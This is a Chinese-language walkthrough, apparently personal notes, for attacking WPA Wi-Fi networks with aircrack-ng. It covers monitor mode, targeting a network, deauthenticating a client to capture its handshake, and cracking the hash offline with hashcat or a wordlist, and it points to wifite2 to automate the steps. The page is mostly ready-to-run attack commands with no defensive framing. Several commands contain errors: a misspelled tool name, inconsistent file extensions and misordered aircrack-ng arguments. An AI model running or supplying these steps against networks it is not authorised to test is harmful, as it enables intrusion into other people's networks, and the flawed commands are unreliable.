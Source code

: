 # WPA 握手包攻击

## 手动

1. 查看網絡設備, 獲取無線網卡名稱.

   ```sh
   iwconfig
   ```

2. 開啓無線網卡監聽模式.

   ```sh
   sudo airmon-ng start wlan0
   ```

   若设备被占用, 执行下列命令来结束占用设备的进程:  

   ```sh
   sudo airmon-ng check kill
   ```

   開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

   !!! warning
       監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 WiFi 信號.

   ```sh
   sudo airodunp-ng wlan0mon
   ```

   當發現目標 WiFi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 WiFi 通信內容.

   ```sh
   sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
   ```

5. 斷開指定設備與指定 WiFi 的鏈接.

   ```sh
   sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
   ```

   目標設備從指定 WiFi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第 4 步將會捕獲這個握手包.

6. 當第 4 步提示捕獲握手包時按下 `Ctrl+C` 結束監聽.

   此時, 握手包的數據已經被記錄在第4步指定的 `.cap` 文件中.

7. 對 `.cap` 文件中握手包的hash進行破解.

   - 使用 Hashcat. (推薦)

      ```sh
      aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
      hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
      ```

   - 使用 aircrack-ng.

      ```sh
      aircrack-ng -w [.cap存檔文件] [字典文件]
      ```

8. 關閉無線網卡監聽模式.

   ```sh
   sudo airmon-ng stop wlan0mon
   ```

   若第 2 步中结束的进程没有自动恢复, 则需要手动启动.

## 自动

可以利用 [wifite2](https://github.com/derv82/wifite2) 来简化上面的流程.  

![Wifite2 WAP Handshake attack](https://camo.githubusercontent.com/241679fd57d09ce160bbaf04886b896d1d101d405fc4d692954beefc8e477a07/68747470733a2f2f692e696d6775722e636f6d2f4636565068626d2e676966)
